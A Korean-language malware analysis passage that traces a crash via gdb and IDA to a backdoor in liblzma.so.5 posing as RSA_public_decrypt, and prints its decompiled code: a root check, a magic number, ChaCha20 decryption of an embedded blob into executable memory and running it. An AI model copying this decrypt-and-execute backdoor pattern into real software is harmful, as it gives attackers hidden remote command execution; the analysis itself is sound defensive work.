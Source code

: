 ```cpp
(gdb) info frame
Stack level 0, frame at 0x7ffcc6601ea0:
 rip = 0x0; saved rip = 0x7f4a18c8f88f
 called by frame at 0x7ffcc6601fd0
 Arglist at 0x7ffcc6601e90, args: 
 Locals at 0x7ffcc6601e90, Previous frame's sp is 0x7ffcc6601ea0
 Saved registers:
  rip at 0x7ffcc6601e
(gdb) x/10i 0x7f4a18c8f88f-4
   0x7f4a18c8f88b:      mov    %esp,%edi
   0x7f4a18c8f88d:      call   *%rax
   0x7f4a18c8f88f:      mov    0xe8(%rsp),%rbx
   0x7f4a18c8f897:      xor    %fs:0x28,%rbx
   0x7f4a18c8f8a0:      jne    0x7f4a18c8f975
   0x7f4a18c8f8a6:      add    $0xf8,%rsp
   0x7f4a18c8f8ad:      pop    %rbx
   0x7f4a18c8f8ae:      pop    %rbp
   0x7f4a18c8f8af:      pop    %r12
   0x7f4a18c8f8b1:      pop    %r13
```

<br />


## 크래시 분석

`info proc map`을 통해 크래시 시점의 `rip`가 `Start Addr + 0x988F`임을 알 수 있다.

```cpp
(gdb) info proc mappings
Mapped address spaces:
      Start Addr           End Addr       Size     Offset objfile
      ...
      0x7f4a18c86000     0x7f4a18c8a000     0x4000        0x0 / (deleted)
      ...
```

<br />

`ida`로 `liblzma.so.5`를 연 후 `Start Addr + 0x988F` 부분에 앞서 찾았던 `
(gdb) x/10i 0x7f4a18c8f88f-4`와 동일한 어셈블리 파트가 존재한다. 이 부분의 디스어셈블리를 보면 아래와 같다. `RSA_public_decrypt`를 빙자한 백도어처럼 생겼다. 동작 구조를 대략적으로 요약하면 다음과 같다. 
1. `getuid()`, `0xC5407A48` : root 권한 및 백도어 매직 넘버 검사 
2. `sub_93F0`, `sub_9520` : `chacha20` `key, nonce` 초기화 및 `&unk_23960` 복호화
3.  `v13()` : 복호화된 데이터(백도어를 통한 원격 명령) 실행
4. `return v10(a1, a2, a3, a4, a5);` : 크래시가 발생한 포인트

```cpp
__int64 __fastcall sub_9820(unsigned int a1, _DWORD *a2, __int64 a3, __int64 a4, unsigned int a5)
{
  const char *v9; // rsi
  void *v10; // rax
  void *v12; // rax
  void (*v13)(void); // [rsp+8h] [rbp-120h]
  char v14[200]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v15; // [rsp+E8h] [rbp-40h]

  v15 = __readfsqword(0x28u);
  v9 = "RSA_public_decrypt";
  if ( !getuid() )
  {
    if ( *a2 == 0xC5407A48 )
    {
      sub_93F0(v14, a2 + 1, a2 + 9, 0LL);
      v12 = mmap(0LL, dword_32360, 7, 34, -1, 0LL);
      v13 = (void (*)(void))memcpy(v12, &unk_23960, dword_32360);
```